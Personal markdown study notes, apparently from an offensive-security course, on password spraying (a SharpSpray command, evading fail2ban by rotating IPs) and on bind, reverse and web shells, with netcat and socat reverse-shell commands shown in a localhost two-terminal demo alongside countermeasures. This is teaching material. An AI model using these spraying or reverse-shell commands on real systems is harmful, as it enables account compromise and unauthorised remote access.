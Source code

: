 # Varia

## Password spraying
Try to login with different users and same password (instead of same user different pw)
Tool fail2ban will lock IP after too many failed login attempts. (can be bypassed by changing IP via tools as proxychain or toor etc.)
https://www.youtube.com/watch?v=vkeb0pWYDr8

Varia
- Good to now password policy to avoid being locked (via powershell: `net accounts`) 
- also used (and mentioned) for lateral movement 
- tool SharpSpray.exe on windows `SharpSpray.exe --Passwords Winter2020 --Sleep 15 --Delay 300`
- Countermeasures
    - strong password policiy
    - no default passwords
    - monitor and ban (e.g. via fail2ban)
    - different passwords for local admin accounts
        - helpful: LAPS Local Administrator Password Solution: AD tool to manage local admin accounts

## Shells
Allows code execution over a network (Remote code execution: RCE). What every hacker wants.
How to achieve remote code execution: Command injection, File upload (php file to a webserver), SQL injection, Buffer overflow etc.

Diagramms see pdf

**Bind Shell**


1. Server: Shell is listening on a port
    - usually shell is started via an exploit by attacker (as it is doubtful that it is started deliberatly)
2. Attacker access port: promt/command line is provided
3. Attacker sends commands which are executed 

*Remark: since the attacker connects to the shell - server is listening - this type of shell is blocked by the firewall*

**Reverse Shell**
Similar to "bind shell" but here attacker is listening and server initiates connection. This us usually allowed by firewalls.

Simple Netcat Reverse Shell (via 2 open terminals)
1. Terminal 1 (Attacker): `nc -l -v -p 8080` -> starts listening on port 8080
2. Terminal 2 (Victim): `cd tmp` `nc.traditional -e /bin/bash localhost 8080` -> connectts to terminal 1 of attacker
3. Terminal 1 (Attacker): `pwd`-> will show tmp folder from Terminal 2

Simple Socat Reverse Shell (via 2 open terminals)
1. Terminal 1 (Attacker): `socat file:`tty`,raw,echo=0 TCP-L:8080` -> starts listening on port 8080
2. Terminal 2 (Victim): `cd tmp` `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:localhost:8080` -> connectts to terminal 1 of attacker
3. Terminal 1 (Attacker): `pwd`-> will show tmp folder from Terminal 2

*To create a shelf using metasploit see lab task (or also Metasploit.md)*

**Web Shell**
A web shell is a shell-like interface that enables a web server to be remotely accessed. The user (attacker) can enter commands via browser and commands are sent via http Get (or post) requests.

For this to happen, the webserver has to host the web shell (which might be done by an exploit: for example via a file upload "webshell.php" that is then executed, or sql injection)
*Remark: probably not so easy to detect by firewalls as commands are normal http requests which are usually allowed* 
